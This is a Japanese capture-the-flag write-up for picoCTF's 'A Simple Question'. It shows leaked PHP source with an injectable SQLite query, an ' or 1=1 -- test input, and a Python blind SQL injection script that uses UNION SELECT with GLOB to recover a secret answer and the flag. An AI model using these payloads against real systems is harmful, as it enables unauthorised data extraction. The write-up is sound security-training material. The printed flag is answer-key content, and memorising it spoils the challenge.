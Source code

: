 # A Simple Question

## Solve
```
There is a website running at http://2018shell.picoctf.com:32635 (link). 
Try to see if you can answer its question.
```

## Hint
```
no
```

<br>

## Solution

![1](https://user-images.githubusercontent.com/47602064/83958651-3d55d580-a8af-11ea-9e98-9b5033991ce4.png)

問題のページに移動すると答えを入力するページが表示されました。

このページのソースを見てみると気になるコメンドがありました。

```html
<!-- source code is in answer2.phps -->
```

以上のように書いてあるのでそこにアクセスしてみます、

`http://2018shell.picoctf.com:32635/answer2.phps`

するとPHPのコードがありました。

```php
<?php
  include "config.php";
  ini_set('error_reporting', E_ALL);
  ini_set('display_errors', 'On');

  $answer = $_POST["answer"];
  $debug = $_POST["debug"];
  $query = "SELECT * FROM answers WHERE answer='$answer'";
  echo "<pre>";
  echo "SQL query: ", htmlspecialchars($query), "\n";
  echo "</pre>";
?>
<?php
  $con = new SQLite3($database_file);
  $result = $con->query($query);

  $row = $result->fetchArray();
  if($answer == $CANARY)  {
    echo "<h1>Perfect!</h1>";
    echo "<p>Your flag is: $FLAG</p>";
  }
  elseif ($row) {
    echo "<h1>You are so close.</h1>";
  } else {
    echo "<h1>Wrong.</h1>";
  }
?>
```

ソースを見ると以下の部分で`answer`が入れられていることがわかります、

```php
$query = "SELECT * FROM answers WHERE answer='$answer'";

if($answer == $CANARY)  {
    echo "<h1>Perfect!</h1>";
    echo "<p>Your flag is: $FLAG</p>";
  }
  elseif ($row) {
    echo "<h1>You are so close.</h1>";
  } else {
    echo "<h1>Wrong.</h1>";
  }
```

入力した`answer`が`$CANARY`と合っていれば`FLAG`が表示されるようです。

<br>

見る限りSQLiが出来そうと思われます。

試しに`' or 1=1 --`と入力してみます。

すると以下にように表示されます。

![2](https://user-images.githubusercontent.com/47602064/83958880-e1408080-a8b1-11ea-94a8-f57c429c2d87.png)

```txt
SQL query: SELECT * FROM answers WHERE answer='' or 1=1 --'
You are so close.
```

これにより、SQLiが出来ていることが確認できます。

<br>

今回はSQLiが出来てもflagは得ることが出来ません。

`$CANARY`の内容を得る必要があります。

なので`Blind SQLi`で1文字ずつ当てていきます。

今回は`SQLite`が使用されていたので`SQLite`の`GLOB`関数で文字列パターンマッチをさせます。

```python
#!/usr/bin/python
import requests
import re

def brute():
 final = ''
 while True:
  for i in range(0x20, 0x7f):
   if i != 42 and i != 63: # Removes Unix wildcards '*' and '?'
    params = {'answer': "' UNION SELECT * FROM answers WHERE answer GLOB '{}{}*'; --".format(final, chr(i))}
    r = requests.post('http://2018shell1.picoctf.com:2644/answer2.php', data=params)
    res = r.text

   if 'You are so close.' in res:
    final += chr(i)
    print final
    break
   elif i == 0x7e:
    return final

#main
ans = brute()
print ' Asnwer: ' + ans
flag = requests.post('http://2018shell1.picoctf.com:32635/answer2.php', data={'answer': ans}).text
print ' Flag: ' + re.findall(r'(picoCTF\{.+\})', flag)[0]
```

```
$ python solve.py 
4
41
41A
41An
41And
41AndS
41AndSi
41AndSix
41AndSixS
41AndSixSi
41AndSixSix
41AndSixSixt
41AndSixSixth
41AndSixSixths
 Asnwer: 41AndSixSixths
 Flag: picoCTF{qu3stions_ar3_h4rd_8f84b784}
```

![2](https://user-images.githubusercontent.com/47602064/83961164-81ef6a00-a8cb-11ea-877a-fbe41a7ad9a9.png)

<br><br>

## FLAG: picoCTF{qu3stions_ar3_h4rd_8f84b784}

